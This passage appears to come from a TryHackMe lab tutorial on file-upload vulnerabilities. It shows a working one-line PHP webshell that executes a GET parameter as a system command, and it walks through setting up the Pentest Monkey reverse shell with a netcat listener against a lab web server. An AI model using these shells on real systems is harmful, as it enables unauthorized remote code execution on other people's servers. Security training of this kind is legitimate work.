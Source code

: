 Ok, we can upload images. Let's try a webshell now.

As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.

A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```php
<?php
    echo system($_GET["cmd"]);
?>
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![](https://i.imgur.com/CU0Uyx5.png)

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.

**Reverse Shells:**

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say 
```php
$ip = '127.0.0.1';  // CHANGE THIS
```
 -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:

![](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating to http://demo.uploadvulns.thm/uploads/shell.php. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!

![](https://i.imgur.com/he0hbiR.png)

Once again, we have obtained RCE on this webserver. From here we would want to stabilise our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!
